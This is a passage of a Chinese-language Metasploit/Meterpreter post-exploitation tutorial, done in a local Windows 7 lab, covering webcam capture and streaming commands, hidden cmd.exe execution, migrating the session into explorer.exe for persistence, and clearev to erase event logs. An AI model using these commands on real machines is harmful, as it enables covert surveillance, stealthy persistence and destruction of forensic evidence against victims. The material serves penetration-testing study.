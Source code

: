3) 摄像头命令  

![](https://mmbiz.qpic.cn/mmbiz_png/hI7MtRK64kDw29w1Eic5Gh4u4SrhyaziaibpNbeTtESVY5yrnUHG5p7EibnKzuhj4SRZlicWvUPs6UCegRdCgqIIGIQ/640?wx_fmt=png)

```
webcam_list     #查看摄像头
webcam_snap     #通过摄像头拍照
webcam_stream   #通过摄像头开启视频
```

如果系统不存在摄像头的话就会报错！  
这里控制 windows7 是我本地虚拟机环境，我禁用了 USB 虚拟接口。  
开启摄像头会弹出 web 页面，进行远程观看！  
拍摄的照片会存放在 / user/ascotbe / 目录下，会有提示！

4) 执行文件  

![](https://mmbiz.qpic.cn/mmbiz_png/hI7MtRK64kDw29w1Eic5Gh4u4Srhyaziaib3Ut4bhvXibicWbu3h3dvjdBLNhoy2sPAQgXveU5IoNoxjqJXBiaydbOFg/640?wx_fmt=png)

```
execute -H -i -f cmd.exe   #创建新进程cmd.exe，-H不可见，-i交互
```

还有个 - m 命令是在内存中运行~~

这里主要记住这个命令即可，创建的新进程对方无法可见，就是在电脑上打开了一个 cmd 新窗口…

5) 进程迁移  

```
getpid    # 获取当前进程的pid
ps     # 查看当前活跃进程
migrate <pid值>    #将Meterpreter会话移植到指定pid值进程中
kill <pid值>   #杀死进程
```

演示：  

![](https://mmbiz.qpic.cn/mmbiz_png/hI7MtRK64kDw29w1Eic5Gh4u4Srhyaziaibn7ADXjtwBET3kf80uXqyicjTnibq4Iv8CnBg1oPAXicic1fKEf8XdjzPnA/640?wx_fmt=png)

这里有两个进程：

```
1264  1148  explorer.exe   x64   1    dayu-PC\dayu  C:\Windows\explorer.exe
1396  488   svchost.exe
```

![](https://mmbiz.qpic.cn/mmbiz_png/hI7MtRK64kDw29w1Eic5Gh4u4SrhyaziaibvxPftibFkIWljSp7U7geuQd1LTtwgp65Rl0jyLZ4lnL2jkLOAb94jCg/640?wx_fmt=png)

可以看到如果两个进程的权限不同，也就是说该进程没有要注入的进程权限高的话，是没办法写入到其他进程中去的！！很直观的方法是看右边的数据！

这里 migrate 1264 成功将我们的 shell 攻击文件移植到了 explorer 的 PID 中，这是攻击常用注入的进程程序之一，主要作用是以后对方就算关机重启后，开启监听还是能继续获得反弹 shell 的！！

6) 清除日志  

后渗透后需要将日志痕迹清理：

```
clearev #清除windows中的应用程序日志、系统日志、安全日志，需要管理员权限
```
